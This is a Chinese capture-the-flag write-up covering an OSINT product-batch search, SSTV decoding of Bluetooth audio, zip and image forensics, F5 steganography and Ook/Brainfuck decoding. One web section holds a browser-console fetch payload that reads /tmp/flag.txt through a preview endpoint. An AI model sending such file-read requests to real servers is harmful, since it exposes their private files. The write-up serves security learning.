

网站2是列出了两个撤回产品的批次号L004L03和L005L03-AD



网站3里面清晰列出了Kinder Surprise Maxi 100g (SMURFS)的最佳食用期限：2022.08.19到2022.09.18



最为关键的证据在网站4，直接一个雷霆大pdf展示了很完整的信息：（同时也验证了EAN是正确的！）

`查了一下德文: MHD von (起点) MHD bis (终点)：分别代表这箱产品中，最早、最晚生产的那一批的到期日，正好可以和前面的证据呼应上`
`Überraschung是惊喜的意思，说明商品名是对的`





**根据网站3中，最佳食用日期是2022.08.19到2022.09.18，直接就锁定了网站4第3行的商品！那么编号就是————**
`L330RZB-MN` 

? ......还是一个选项都对不上......

`*当时其实挺崩溃，做这个题因为拔河比赛延误而打断了两次（还拔输了），重新回到机房坐稳时发现前三血已经丢了，心态略微有点死了。眼见动态分一直掉，再耗的话沉默成本收不住了，于是匆忙选择了L004L03这个出现频率较高的批次号，心存侥幸填了上去。可惜，它并不是正确答案。还好后四问是对的，拿走了五分之四的分数*`

#### 回头验证

出题人赛后提示正确答案是B选项L356R03。不妨验证一下————把L356R03扔给workbuddy查找，找到了一个波兰外网，里面赫然写着问卷里的4个选项：





此时需要用批次号的编码规则来四选一：批次号的编码规则是 欧盟批次→生产日→年份字母→工厂识别码→产线编号，所以字母L后跟着的三位数字是“生产于该年的第几天。

从 **[这个网站](https://www.kespro.com/en/products/kinder-maxi-surprise-100g-4008400231327)**得知，Kinder Maxi Surprise 100g的保质期是270天。推算后发现L356R03的生产日期加上270天后正好就是2022-09-18，符合之前网站3的信息。证毕！

```
批次号     生产日期   +270天过期日
L355R03	 2021-12-21	 2022-09-17
L356R03  2021-12-22  2022-09-18  B选项
L004L03	 2022-01-04	 2022-10-01
L006L03	 2022-01-06	 2022-10-03
```

一度很相信ai的搜索和信息整合能力，然而当信息变得繁杂、小众、难以判断，硅基生物的大脑也难以保证完全精准。卖花担上看桃李，不如树头枝底之活精神。还是得用眼睛亲眼看看啊。

#### 彩蛋
“会做的题没做出来”，这向来是一大遗憾。这次的彩蛋也是如此，赛后出题人提醒才注意到，图片尾部那极其违和的皇冠。明显是被改动了宽高。在010里改高，得到了完整的meme图（出题人自己手搓的）

从下往上看


......


_诗云：_

_“幼稚的愿望，折断的翅膀；_

_膨胀的愿望，萎缩的梦想；_

_独自的愿望，现实的虚妄；_

_众人的愿望，来场核爆怎么样？”_


......

# ClaudeCalled
#### 蓝牙耳机流量分析

题目的容器是一个网站登录界面：

>Note: The username and password are the full names of the two key figures you encountered in your journey. Join first and last name with no space (e.g. JohnSmith).

于是开始分析附件，是一个流量包，用wireshark打开。



发现这些协议类型很不寻常，和deepseek **[深度求索](https://chat.deepseek.com/share/lgifu7ozvk5en3lcdb)** 一下,发现是蓝牙耳机的流量，并在deepseek的引导下使用tshark命令分离出了原始的hex数据。

`tshark -r capture.pcap -Y "btl2cap" -T fields -e btl2cap.payload > "%USERPROFILE%\Desktop\payload_hex.txt"`

但将txt后缀改成raw或者wav之类的，都拖不到Audacity里，怀疑这并不是常规的可以听的音频。**[请教workbuddy](https://workbuddy.link/p/oTydKq6qhHDUgbSOAjGGkv?ext2=copy_link)** 修复一下，并将音频频率映射成了一张黑白图片：



事后的质询环节结束后才得知，这里是叫做sstv（Slow Scan Television，慢扫描电视）的通讯方式。原理大致是将图像的像素按照行扫描，把像素映射成音频频率（所以修复后的音频听起来滴滴嘟嘟相当刺耳）（据说国际空间站会定期在 145.8 MHz 下行发送 SSTV 图片，全世界 ham 用一根天线 + 一份音频就能收到宇航员发的纪念图 哈哈）

转化脚本如下

```python
# -*- coding: utf-8 -*-
"""Martin M1 SSTV decoder for payload_audio.wav (true sample rate = 48000)."""
import numpy as np, wave, zlib, struct

WAV = r'C:/Users/33604/WorkBuddy/2026-10-25-11-57-05/payload_audio.wav'
OUT = r'C:/Users/33604/WorkBuddy/2026-10-25-11-57-05/sstv_decoded.png'

FS = 48000  # true sample rate
ms = lambda v: int(v * FS / 1000.0)

w = wave.open(WAV, 'rb')
n = w.getnframes()
x = np.frombuffer(w.readframes(n), dtype='<i2').astype(np.float64)
w.close()
N = len(x)
print('samples:', N, 'duration @48k: %.3f s' % (N / FS))

# ---- FM demodulation via Hilbert ----
spec = np.fft.fft(x)
f = np.fft.fftfreq(N, 1.0 / FS)
spec[f <= 0] = 0
spec[f > 0] *= 2
a = np.fft.ifft(spec)
ph = np.unwrap(np.angle(a))
inst = np.diff(ph) * FS / (2 * np.pi)
# light smoothing
k = 15
sm = np.convolve(inst, np.ones(k) / k, mode='same')
np.save(r'C:/Users/33604/WorkBuddy/2026-10-25-11-57-05/inst48.npy', sm.astype(np.float32))

# ---- find sync pulses (1200 Hz, 4.9 ms) ----
below = sm < 1250
d = np.diff(below.astype(np.int8))
starts = np.where(d == 1)[0] + 1
ends = np.where(d == -1)[0] + 1
if below[0]:
    starts = np.r_[0, starts]
if below[-1]:
    ends = np.r_[ends, len(below)]
runs = [(s, e) for s, e in zip(starts, ends)
        if 3.5e-3 * FS <= (e - s) <= 6.5e-3 * FS]
print('sync pulses found:', len(runs))
sync_starts = np.array([s for s, e in runs])
if len(sync_starts) > 5:
    per = np.diff(sync_starts)
    print('line period: %.3f ms (Martin M1 nominal 446.446 ms)'
          % (np.median(per) / FS * 1000))

# ---- decode Martin M1 ----
W_, H_ = 320, 256
PIX = 0.4576e-3 * FS          # 21.96 samples per pixel
SCAN = W_ * PIX               # 146.43 ms
SEP = 0.5e-3 * FS             # 0.5 ms separator
SYNC = 4.9e-3 * FS
CHAN_OFF = SYNC + SEP         # start of first channel after sync start
CH_STEP = SCAN + SEP          # between channel scans (incl. separator)

img = np.zeros((H_, W_, 3), dtype=np.uint8)
used = 0
for li in range(min(len(sync_starts) - 1, H_)):
    s0 = sync_starts[li]
    row = img[li]
    for ci in range(3):
        base = int(s0 + CHAN_OFF + ci * CH_STEP)
        for p in range(W_):
            c = base + int(p * PIX)
            fr = np.median(sm[max(c - 3, 0):c + 4])
            v = (fr - 1500.0) / 800.0 * 255.0
            # Martin channel order: G, B, R
            row[p, [1, 2, 0][ci]] = np.clip(v, 0, 255)
    used = li + 1
print('decoded lines:', used)

# ---- write PNG manually (RGB, no filter) ----
def write_png(path, arr):
    h, w_, _ = arr.shape
    raw = b''.join(b'\x00' + arr[y].tobytes() for y in range(h))
    def chunk(tag, data):
        c = struct.pack('>I', len(data)) + tag + data
        return c + struct.pack('>I', zlib.crc32(tag + data) & 0xffffffff)
    ihdr = struct.pack('>IIBBBBB', w_, h, 8, 2, 0, 0, 0)
    png = (b'\x89PNG\r\n\x1a\n' + chunk(b'IHDR', ihdr)
           + chunk(b'IDAT', zlib.compress(raw, 6)) + chunk(b'IEND', b''))
    open(path, 'wb').write(png)

write_png(OUT, img)
print('saved', OUT)

# also save a 3x upscaled version for easier viewing
big = np.repeat(np.repeat(img, 3, axis=0), 3, axis=1)
write_png(OUT.replace('.png', '_3x.png'), big)
print('saved 3x version')


```
回到对图片的分析。图片人物是作曲家德彪西（Claude Debussy）（原来这就是claude的含义），下面的法语Clair de lune是他的代表作《月光》，而这首曲子的灵感来源于法国象征派诗人保尔·魏尔伦（Paul Verlaine）的同名诗歌。

但将ClaudeDebussy和PaulVerlaine交替填入用户名和密码都不对。此时注意到原图下方的另外三个字母：
`wyy`

#### 劲爆网易云寻踪

wyy是什么音乐软件啊，好难猜啊~

打开网易云，搜索Clair de lune，发现了一位比较有名的歌唱家Micheal Silverman唱过这首歌，然而用他的名字加德彪西输进去也不对。

发动鬼脑，网易云被称作网抑郁是评论区的功劳，于是从评论区找线索。点进德彪西的主页，第二首歌是月光的降D大调版本，在评论里找到了神秘留言：

<div class="figures w-95">





</div>

`whuctf hint:the website has a vulnerability,try hacking with a special code in the field,that is somehow related in appearance to Harold Bauer's victor matrix.（WHUCTF 提示：该网站存在一个漏洞，尝试在字段中使用一段特殊代码进行攻击，这段代码在外观上与 Harold Bauer 的 victor matrix 有某种关联）`

到目前为止已经出现了两个关键人名：ClaudeDebussy、HaroldBauer，填入网站后成功登录进入下一关。

#### MATRIX

先搜索一下这个歌手的 **[“victor 矩阵”长啥样](https://chat.deepseek.com/share/ffsnrdn4zmhz2zo3v1)** ，可以推断上面提示中的"appearance"应该指的是编号规则一类的，而不是物理上的长相。把victor matrix和网站靶机提供给dsh，让其分析完毕网站结构后迅速得到了payload，在控制台执行即可得到flag：

```
fetch('/api_vedo/render_preview',{method:'POST',headers:{'Content-Type':'application/x-www-form-urlencoded'},body:'asset=/tmp/flag.txt'}).then(r=>r.json()).then(d=>console.log(d.output))
```
由于不太懂网站结构，当时并不知道这个提示对这个题起了什么帮助（其实现在也没太懂）。ai的思路是，在页面源代码发现了这些内容可以来妙用：
```
 fetch('/api_vedo/render_preview', {
    method: 'POST',
    headers: {'Content-Type': 'application/x-www-form-urlencoded'},
    body: 'asset=' + encodeURIComponent(name)
```


后来赛后询问出题人，得知提示的关键点是：唱片的编号长得很像CVE，而CVE是始于 1999 年的“通用漏洞披露” 项目,即给网络漏洞起名字。然而ai说：


# 猫の小屋_final

#### 第一关

chal1.zip打不开，题目也没有给出密码相关的线索，很自然想到伪加密。将加密标志位09 00改成08 00成功打开。

映入眼帘的是一个gpj.hserfer文件？还傻乎乎查了一下这是什么文件格式，后来发现原来是文件名被倒转过来了（气笑了）

改成refresh.jpg后依旧打不开。拖入010里，发现是每个字节的高4位和低4位都被调转了（nibble swap）



让ai写一个复原脚本：
```python
import argparse
import base64
import os
import sys

# 高4位与低4位互换的 256 字节查表，比逐字节位移快，也更好读
SWAP_TABLE = bytes(((b << 4) & 0xF0) | ((b >> 4) & 0x0F) for b in range(256))


def swap_nibbles(data: bytes) -> bytes:
    """整段字节流做 nibble 交换（自反操作）。"""
    return data.translate(SWAP_TABLE)


def looks_like_jpeg(data: bytes) -> bool:
    """粗判：SOI(FFD8) 开头 + EOI(FFD9) 结尾。"""
    return len(data) > 4 and data[:2] == b"\xff\xd8" and data[-2:] == b"\xff\xd9"


def has_soi(data: bytes) -> bool:
    return data[:2] == b"\xff\xd8"


def describe(data: bytes, n: int = 16) -> str:
    head = " ".join(f"{b:02X}" for b in data[:n])
    tail = " ".join(f"{b:02X}" for b in data[-6:])
    return f"头 {head} ... 尾 {tail}"


def split_tail(data: bytes, tail_len: int = 64):
    """返回 (干净JPEG, FFD9 之后的多余字节)。找不到 FFD9 则原样返回。"""
    end = data.rfind(b"\xff\xd9")
    if end < 0:
        return data, b""
    end += 2
    return data[:end], data[end:]


def try_base64(blob: bytes):
    """尾部若是 base64 文本，顺手解出来（很多题会在这里藏提示）。"""
    text = blob.strip()
    if not text or len(text) > 4096:
        return None
    try:
        dec = base64.b64decode(text + b"=" * (-len(text) % 4), validate=True)
    except Exception:
        return None
    if all(32 <= c < 127 or c in (9, 10, 13) for c in dec):
        return dec.decode("utf-8", "replace")
    return None


def process(src, dst=None, auto=False, force=False, strip_tail=False):
    with open(src, "rb") as f:
        raw = f.read()

    # --auto：好图 / PNG 直接跳过，避免把正常文件搞坏
    if auto:
        if has_soi(raw) and not has_soi(swap_nibbles(raw)):
            print(f"[跳过] {src} 本身已是正常 JPEG（FFD8 开头），未做处理")
            return 0
        if raw[:8] == b"\x89PNG\r\n\x1a\n":
            print(f"[跳过] {src} 是 PNG，不是本脚本的菜")
            return 0

    fixed = swap_nibbles(raw)

    if not has_soi(fixed) and not force:
        print("[警告] 交换后开头不是 FF D8，可能不是 nibble 对调（或已损坏）：")
        print(f"       原文件 -> {describe(raw)}")
        print(f"       交换后 -> {describe(fixed)}")
        print("       仍会写出文件；加 --force 可不看这条提示。")

    clean, tail = split_tail(fixed)
    if tail:
        print(f"[提示] FFD9 之后还有 {len(tail)} 字节附加数据: {tail!r}")
        hint = try_base64(tail)
        if hint:
            print(f"       base64 解开 -> {hint}")

    out_data = clean if strip_tail else fixed

    if dst is None:
        root, _ = os.path.splitext(src)
        dst = root + "_fixed.jpg"

    with open(dst, "wb") as f:
        f.write(out_data)

    print(f"[完成] {src}  ({len(raw)} 字节)")
    print(f"       原文件 -> {describe(raw)}")
    print(f"       复原后 -> {describe(fixed)}")
    print(f"       输出   -> {dst}  ({len(out_data)} 字节)")

    # Pillow 在就顺手验证能否真正解码
    try:
        from PIL import Image
        with Image.open(dst) as im:
            im.load()
            print(f"       校验   -> 解码成功 {im.format} {im.size} mode={im.mode}")
    except ImportError:
        pass
    except Exception as e:
        print(f"       校验   -> 解码失败: {e}")
    return 0


def main():
    ap = argparse.ArgumentParser(description="JPEG 半字节(nibble)对调复原工具")
    ap.add_argument("files", nargs="+", help="输入文件（可多个 / 支持通配符）")
    ap.add_argument("-o", "--output", help="输出文件名（仅单文件时可用）")
    ap.add_argument("--batch", action="store_true", help="批量模式：每个文件输出 *_fixed.jpg")
    ap.add_argument("--auto", action="store_true", help="自动判断：正常 JPEG/PNG 跳过")
    ap.add_argument("--force", action="store_true", help="头不是 FFD8 也照写不误")
    ap.add_argument("--strip-tail", action="store_true", help="只保留到最后一个 FFD9")
    args = ap.parse_args()

    if args.output and len(args.files) > 1:
        ap.error("-o 只能配合单个输入文件使用")

    rc = 0
    for i, src in enumerate(args.files):
        if not os.path.isfile(src):
            print(f"[错误] 文件不存在: {src}")
            rc = 1
            continue
        dst = args.output if (args.output and len(args.files) == 1) else None
        try:
            process(src, dst, auto=args.auto, force=args.force, strip_tail=args.strip_tail)
        except Exception as e:
            print(f"[错误] 处理 {src} 失败: {e}")
            rc = 1
        if i != len(args.files) - 1:
            print("-" * 64)
    return rc


if __name__ == "__main__":
    sys.exit(main())


```
复原后果真得到refresh图标。再次拖入010发现了尾部附加的base64编码`cmVmcmVzaF9tZXRob2Q=`，解码得到
`refresh_method` 输入第二关发现不对，仔细检查010，发现图片头部有如下字样：



搜索发现这是F5加密方式的创始人，于是下载F5解密工具，用`refresh_method`作为密钥成功解密得到密钥：
```
"C:\Users\33604\OpenJDK11U-jdk_x64_windows_hotspot_11.0.32.1_1\jdk-11.0.32.1+1\bin\java.exe" Extract 1.jpg -p refresh_method
F5_1s_The_R3fresh_Sh0rtcut_Key
```
用`F5_1s_The_R3fresh_Sh0rtcut_Key`进入第二关。

#### 第二关

里面有一张popipa的大头照和txt文本。图片隐写的方式太多了，从编码入手似乎会更简单。观察发现文本里只有`po pi pa`三种符号，而常见的3元编码有摩斯密码，三进制，Ook等。初步判断后发现只可能是Ook，让ai穷举映射情况进行解密：
```python
from __future__ import annotations

import itertools
import string
import sys

OPS = "><+-.,[]"

PAIRS = ["oo", "aa", "oi", "io", "ao", "ai", "ia"]


def to_codepoints(tok: str) -> list[str]:
    return [tok[i:i + 2] for i in range(0, len(tok) - 1, 2)]


def run_bf(code: str, cap: int = 20000, max_out: int = 400) -> tuple[bytes, bool]:
    """跑 BF。返回 (输出, 是否正常结束)。异常/超步数一律立刻 bail。"""
    # 预编译跳转表，顺带检查括号平衡
    jumps: dict[int, int] = {}
    stack: list[int] = []
    for i, c in enumerate(code):
        if c == '[':
            stack.append(i)
        elif c == ']':
            if not stack:
                return b"", False
            j = stack.pop()
            jumps[i] = j
            jumps[j] = i
    if stack:
        return b"", False

    tape = bytearray(30000)
    ptr = 0
    out = bytearray()
    pc = 0
    n = len(code)
    steps = 0
    while pc < n:
        steps += 1
        if steps > cap or len(out) > max_out:
            return bytes(out), False
        c = code[pc]
        if c == '>':
            ptr += 1
            if ptr >= len(tape):
                return bytes(out), False
        elif c == '<':
            ptr -= 1
            if ptr < 0:
                return bytes(out), False
        elif c == '+':
            tape[ptr] = (tape[ptr] + 1) & 0xFF
        elif c == '-':
            tape[ptr] = (tape[ptr] - 1) & 0xFF
        elif c == '.':
            out.append(tape[ptr])
        elif c == ',':
            tape[ptr] = 0
        elif c == '[':
            if tape[ptr] == 0:
                pc = jumps[pc]
        elif c == ']':
            if tape[ptr] != 0:
                pc = jumps[pc]
        pc += 1
    return bytes(out), True


def score(b: bytes) -> float:
    if not b:
        return 0.0
    s = b.decode("latin-1")
    printable = sum(c in string.printable and c not in "\x0b\x0c" for c in s) / len(s)
    bonus = 0.0
    low = s.lower()
    for kw in ("{", "}", "flag", "whu", "ctf", "popipa", "http"):
        if kw in low:
            bonus += 0.5
    return printable + bonus


def main() -> int:
    path = sys.argv[1] if len(sys.argv) > 1 else "popipa.txt"
    raw = open(path, encoding="utf-8").read().strip()
    tok = raw[1::2]
    pairs = to_codepoints(tok)
    print(f"符号 {len(tok)} 个 -> 指令 {len(pairs)} 条")
    print(f"配对种类 {sorted(set(pairs))}\n")

    hits = []
    tried = 0
    for unused in OPS:                       # 8 条里哪一条没被用到
        used = [op for op in OPS if op != unused]
        for perm in itertools.permutations(used):
            table = dict(zip(PAIRS, perm))
            code = "".join(table[p] for p in pairs)
            tried += 1
            out, done = run_bf(code, cap=8000)
            if len(out) >= 6:
                sc = score(out)
                if sc >= 1.0:
                    hits.append((sc, unused, perm, out, done))

    hits.sort(reverse=True, key=lambda x: x[0])
    print(f"尝试 {tried} 种映射，得分 >=1.0 的候选 {len(hits)} 个\n")
    for sc, unused, perm, out, done in hits[:10]:
        mapping = " ".join(f"{p}->{op}" for p, op in zip(PAIRS, perm))
        print(f"[{sc:.2f}] 未用={unused} {'完整跑完' if done else '被截断'}")
        print(f"      {mapping}")
        print(f"      输出: {out[:200]!r}\n")
    return 0


if __name__ == "__main__":
    sys.exit(main())


```
得到了Brainfuck源码以及密文：
```
  ++++++++++[->++++++++++<]>++++++++++++.-.+.-------.+++++++.<+++[->---<]>------.--.<+++[->+++<]
  >+.<+++[->+++<]>+.<++++[->----<]>----.<++++[->++++<]>.----.<++++++++[->--------<]>----------.<
  
  popipa_is_ok!
```
做到这出题人在旁边暗笑。原来是跳步了，图片是盲水印隐写，作为提示引导往Ook上思考的：

